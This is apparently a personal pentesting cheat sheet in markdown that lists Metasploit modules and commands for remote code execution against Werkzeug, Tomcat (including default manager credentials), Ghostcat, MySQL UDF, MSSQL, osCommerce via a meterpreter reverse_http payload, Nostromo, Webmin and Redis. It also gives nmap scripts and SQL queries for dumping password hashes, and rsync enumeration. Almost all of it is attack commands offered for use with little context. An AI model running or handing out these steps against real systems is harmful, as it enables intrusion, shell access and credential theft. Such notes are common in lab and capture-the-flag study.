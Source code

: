 # Exploits

## Werkzeug

```use multi/http/werkzeug+debug_rce```

Gives root

## Apache tomcat manager vuln

prereq

First check that /manager directory is there

```use mult/handler/tomcat_mgr_upload```

default user: tomcat
default password: s3cret

user tomcat

priv

check in ```conf``` directory (might be zipped) and check ```tomcat-users.xml```

## Apache tomcat ghostcat

Check for ajp service running.

Can read sensistive info

```use admin/http/tomcat_ghostcat```

## MySQL

enum with Metasploit

```
use admin/mysql/mysql_enum
use auxiliary/scanner/mysql_version
use scanner/mysql/mysql_hashdump
```

enum with nmap

```nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 <IP>```

connect diectly

```
mysql -h <ip> -u <user> -p <password>

SHOW databases;
use <database>
SELECT user,password FROM mysql.user
```

rce

```
use multi/mysql/mysql_udf_payload

set FORCE_UDF_UPLOAD true (needs for the RCE)
set target (default is windows)

may try and open up two meterpreter sessions. cntrl + c to cancel and there should be one meterpreter session
```


## MSSQL

enum with nmap

```nmap --script-args mssql.instance-port=1433,mssql.username=<username (default is sa>,mssql.password=<password>,mssql.instance-name<mssqlserver> -sV -p 1433 --script=ms-sql-brute,ms-sql-dump-hashes,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-empty-password,ms-sql-info <ip>```

enum with metasploit

```
use admin/mssql/mssql_enum
use scanner/mssql/mssql_ping
use scanner/mssql/mssql_login
```

connect directly

```
mssqlclient.py <user>@<ip>

SELECT * FROM information_schema.tables
SELECT name FROM master.dbo.sysdatabases
```

rce

```use windows/mssql/mssql_payload```


## osCommerce2_3_4

```
use multi/script/web_delivery
set payload payload/windows/meterpreter/reverse_http
```

## Nostromo 1.9.6

```use /multi/http/nostromo_code_exec```

## Webmin 1.580

```use unix/webapp/webmin_show_cgi_exec```

## REdis

enum with metasploit

```use gather/redis_extractor```

rce

```use linux/redis/redis_replication_cmd_exec```


## rsync

enum rsync

```
rsync -dt rsync://rsync-connector@<IP>:<port>/<dir>
rsync -a rsync://rsync-connector@<IP>:<port> <dir to save into>
```

with metasploit
```use scanner/rsync/modules_list```

